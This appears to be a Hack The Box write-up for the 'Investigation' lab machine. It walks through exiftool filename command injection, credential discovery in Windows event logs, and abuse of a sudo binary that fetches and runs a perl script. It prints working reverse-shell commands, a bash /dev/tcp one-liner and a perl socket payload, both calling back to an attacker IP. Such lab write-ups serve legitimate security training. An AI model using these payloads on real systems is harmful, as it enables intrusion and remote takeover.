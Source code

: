 # Investigation

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.236.234
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-24 10:42 EST
Warning: 10.129.236.234 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.236.234
Host is up (0.16s latency).
Not shown: 64782 closed tcp ports (conn-refused), 751 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Web Exploit based. We would have to add `eforenzics.htb` to our `/etc/hosts` file to access the web port.

### Exiftool RCE

The website reveals some web application advertising Digital Forensic Services.

<figure><img src="../../../.gitbook/assets/image (11) (8) (1).png" alt=""><figcaption></figcaption></figure>

Clicking the big Go button reveals that we can upload a jpg file to the website for analysis.

<figure><img src="../../../.gitbook/assets/image (16) (7).png" alt=""><figcaption></figcaption></figure>

When I uploada file, it would produce a link to a report.

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

The file would be a .txt file of output from `exiftool` being used on the file.

<figure><img src="../../../.gitbook/assets/image (18) (2) (1).png" alt=""><figcaption></figcaption></figure>

Very obviously, there is a JPG RCE vulnerability here. One possible parameter to inject commands in is the File Name. With the version, I found this vulnerability that allowed for RCE through the pipe character.

{% embed url="https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429" %}

From this, I attempted a few direct OS command injections but it didn't work out well. I then attempted some Base64 encoded stuff, and a simple ping command works!

<figure><img src="../../../.gitbook/assets/image (17) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (21) (7) (1).png" alt=""><figcaption></figcaption></figure>

We can then replace the Base64 encoded command with a simple bash reverse shell and it works!

```
$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.56/4444 0>&1"  ' | base64
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Ni80NDQ0IDA+JjEiICAK
```

<figure><img src="../../../.gitbook/assets/image (20) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

When viewing the `/home` directory, we see there's a `smorton` user that we cannot access.

```
www-data@investigation:/home$ ls -la
total 12
drwxr-xr-x  3 root    root    4096 Aug 27 21:20 .
drwxr-xr-x 18 root    root    4096 Jan  9 16:53 ..
drwxrwx---  3 smorton smorton 4096 Jan  9 10:47 smorton
```

We need to do some looking around. I ran LinPEAS and found an interesting cronjob that was running.

<figure><img src="../../../.gitbook/assets/image (3) (1) (8) (1).png" alt=""><figcaption></figcaption></figure>

Some backups of the `/home` directory were being created, and also there was an unquoted service path for the `date` binary.

### Windows Event Logs

Heading to the `/usr/local/investigation/analysed_log` file, we can find a Microsoft Outlook Message there.

```
www-data@investigation:/usr/local/investigation$ ls -la
total 1288
drwxr-xr-x  2 root     root        4096 Sep 30 23:43  .
drwxr-xr-x 11 root     root        4096 Aug 27 21:54  ..
-rw-rw-r--  1 smorton  smorton  1308160 Oct  1 00:35 'Windows Event Logs for Analysis.msg'
-rw-rw-r--  1 www-data www-data       0 Oct  1 00:40  analysed_log
```

I sent this back to my machine via `nc` and opened it using `msfconvert`. Afterwards, we can read the emails. There's a huge base64 encoded zip file attached.

```
Content-Type: text/plain; charset=UTF-8
Content-Disposition: inline
Content-Transfer-Encoding: 8bit

Hi Steve,

Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures. 

Regards.
Tom
```

I couldn't decode the base64 to get the file for some reason, so I ported the message to my Windows machine and downloaded the file there.

When unzipped, we would get this MS Windows Vista Event Log.

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

So the key here is to watch for logging and file transfers that are occurring. We can use this tool to dump the log file into a JSON file for easier reading.&#x20;

{% embed url="https://github.com/omerbenamram/evtx" %}

After looking around the entire log file (for a while), I chanced upon this string when searching for the Authentication term.

<figure><img src="../../../.gitbook/assets/image (12) (9) (1).png" alt=""><figcaption></figcaption></figure>

Turns out that this was the password for `smorton`. We can now `su` and capture the user flag.

### Sudo Binary

When checking sudo privileges as `smorton`, we can find one:

```
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

Attempting to run the binary just does this:

```
smorton@investigation:~$ sudo /usr/bin/binary
Exiting...
```

So I transferred this binary back to my machine and used `ghidra` to see what it does. Here's the decompiled main function:

<figure><img src="../../../.gitbook/assets/image (19) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

We can use this to get these this information:

1. It needs a total of 3 parameters
2. A password of `lDnxUysaQn` is needed as one of the parameters
3. It exeecutes `curl` and `perl` on the script we download
4. Then it cleans up by removing the file.

Simple enough. We should just need to host a perl reverse shell on our machine via Python HTTP and let this binary download and execute it.&#x20;

```perl
use Socket;$i="10.10.14.56";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

After a bit of testing about the ordering of the parameters, I found what works:

```
smorton@investigation:~$ sudo /usr/bin/binary http://10.10.14.56/rev.perl lDnxUysaQn 
Running...
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

Definitely more on the CTF side of HTB.&#x20;
